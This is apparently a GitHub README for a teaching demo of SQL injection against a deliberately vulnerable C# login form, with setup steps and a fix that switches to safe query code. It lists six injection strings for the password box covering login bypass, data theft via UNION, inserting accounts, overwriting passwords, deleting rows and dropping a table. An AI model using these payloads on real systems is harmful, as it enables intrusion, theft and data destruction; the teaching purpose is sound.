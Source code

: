 #  This is Demo for SQL Injection Attack <br>

Usebackup file `DemoSQLi.bak` to set up Database <br>
Run file `SQLi.sln` to open project <br>
Change DataSource in file `MyDB.cs` to Connect to database <br>
![image](https://github.com/user-attachments/assets/d3388462-80da-4909-8411-71a04ba8e00f) <br> <br>

To Login input username and password following this table <br>
![image](https://github.com/user-attachments/assets/903733c5-5dfa-478a-92fc-c926a99f126a) <br>

Run Program and login normally <br>
![image](https://github.com/user-attachments/assets/be7584b8-dfc0-4e15-a98b-a84f8798982c) <br>

Exit and try to perform SQL injection attack <br>
![image](https://github.com/user-attachments/assets/9d816923-2e97-4954-a480-6f3a29591305) <br>

Enter something in `username` TextBox <br>
Enter these following strings one by one into the `password` TextBox:
```
' or 1=1 -- Login
' or 1=1 UNION SELECT * FROM Users -- Stealing
' or 1=1; INSERT INTO Login(username, password) VALUES ('inject1', '12345')  -- Insert 
' or 1=1; UPDATE Login SET password = 'ThisIsInjectedPassWord' -- Change Password
' or 1=1; DELETE FROM users1 -- Delete  
' or 1=1; DROP TABLE USERS1 -- DROP TABLE
```
<br>
And Observe database changes <br>


# To Prevent SQL Injection Attack <br>
Open file `LoginForm.cs` <br> 
Comment line 30, 31 and uncomment line 33 to 38 <br>
![image](https://github.com/user-attachments/assets/4fb4d29b-31e6-439e-bce0-3b0122a1d5ea) <br>

Try to login by SQL injection. The result is `Invalid Login`


